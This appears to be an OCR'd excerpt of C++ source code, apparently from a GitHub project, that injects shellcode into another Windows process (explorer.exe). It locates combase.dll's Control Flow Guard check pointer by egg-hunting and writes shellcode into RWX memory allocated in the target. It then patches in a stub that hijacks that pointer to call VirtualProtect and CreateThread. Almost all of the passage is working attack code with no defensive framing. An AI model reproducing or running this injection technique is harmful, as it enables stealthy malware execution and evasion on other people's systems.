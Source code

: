 ```cpp
        0x49, 0x8b, 0x4a, 0x68,  // mov     rcx, qword [r10+0x68]
        0xff, 0x15               // call    qword [rel __guard_check_icall_fptr]  {_guard_check_icall_nop}
        // next 4 bytes are the offset
    };

    BYTE* egg_location = (BYTE*)EggHunt(NdrProxyForwardingFunction13, 256, egg___guard_check_icall_fptr, sizeof(egg___guard_check_icall_fptr));
    if (!egg_location)
    {
        LOG_ERROR("Failed to locate __guard_check_icall_fptr call offset @ combase.dll!NdrProxyForwardingFunction13");
        return;
    }
    BYTE* egg_end = egg_location + sizeof(egg___guard_check_icall_fptr);
    LOG_INFO("combase.dll!__guard_check_icall_fptr egg @ %p", egg_location);
    LOG_INFO("combase.dll!__guard_check_icall_fptr egg_end @ %p", egg_end);

    DWORD offset = *(DWORD*)egg_end;
    LOG_INFO("combase.dll!__guard_check_icall_fptr call offset => 0x%08lx", offset);
    FARPROC* __guard_check_icall_fptr = (FARPROC*)(egg_end + offset + sizeof(DWORD));
    FARPROC _guard_check_icall_nop = *__guard_check_icall_fptr;
    LOG_SUCCESS("combase.dll!__guard_check_icall_fptr @ %p", __guard_check_icall_fptr);
    LOG_SUCCESS("combase.dll!_guard_check_icall_nop @ %p", _guard_check_icall_nop);

    //
    // process injection stuff
    //
    HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // explorer.exe rn

    //
    // Allocate & write shellcode to target process.
    // TODO: add CFG hook stub here (self-restoring)
    //
    BYTE* base_address = (BYTE*)VirtualAllocEx(process, NULL, sizeof(shellcode) + 0xc0, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    BYTE stub[] = {
        0x41,0x54,0x53,0x48,0x83,0xec,0x58,0x50,0x57,0x51,0x57,0x56,0x41,0x50,0x41,0x51,0x41,0x52,0x41,0x53,0x41,0x54,0x41,0x55,0x4c,0x8d,0x4c,0x24,0x4c,0xc7,0x44,0x24,0x4c,0x00,0x00,0x00,0x00,0xba,0x08,0x00,0x00,0x00,
        0x49,0xbc,
        0x33,0x33,0x33,0x33,0x33,0x33,0x33,0x33,
        0x4c,0x89,0x4c,0x24,0x38,0x4c,0x89,0xe1,0x41,0xb8,0x04,0x00,0x00,0x00,0x48,0xbb,0x11,0x11,0x11,0x11,0x11,0x11,0x11,0x11,0xff,0xd3,0x4c,0x8b,0x4c,0x24,0x38,0x44,0x8b,0x44,0x24,0x4c,0x4c,0x89,0xe1,0x48,0xb8,0x44,0x44,0x44,0x44,0x44,0x44,0x44,0x44,0xba,0x08,0x00,0x00,0x00,0x49,0x89,0x04,0x24,0xff,0xd3,0xc7,0x44,0x24,0x20,0x00,0x00,0x00,0x00,0x45,0x31,0xc9,0x31,0xd2,0x48,0xc7,0x44,0x24,0x28,0x00,0x00,0x00,0x00,0x31,0xc9,0x49,0xb8,0x55,0x55,0x55,0x55,0x55,0x55,0x55,0x55,0x48,0xb8,0x22,0x22,0x22,0x22,0x22,0x22,0x22,0x22,0xff,0xd0,0x58,0x5f,0x59,0x5f,0x5e,0x41,0x58,0x41,0x59,0x41,0x5a,0x41,0x5b,0x41,0x5c,0x41,0x5d,0x48,0x83,0xc4,0x58,0x5b,0x41,0x5c,0xc3
    };
    HMODULE kernel32 = GetModuleHandleA("KERNEL32.DLL");
    FARPROC _VirtualProtect = GetProcAddress(kernel32, "VirtualProtect");
    FARPROC _CreateThread = GetProcAddress(kernel32, "CreateThread");
    BYTE* shellcode_address = base_address + 0xc0;
    memcpy(stub + 44, &__guard_check_icall_fptr, sizeof(FARPROC*));
    memcpy(stub + 68, &_VirtualProtect, sizeof(FARPROC));
    memcpy(stub + 93, __guard_check_icall_fptr, sizeof(FARPROC));
    memcpy(stub + 138, &shellcode_address, sizeof(FARPROC));
    memcpy(stub + 148, &_CreateThread, sizeof(FARPROC));

    WriteProcessMemory(process, base_address, stub, sizeof(stub), NULL);
    WriteProcessMemory(process, shellcode_address, shellcode, sizeof(shellcode), NULL);
```
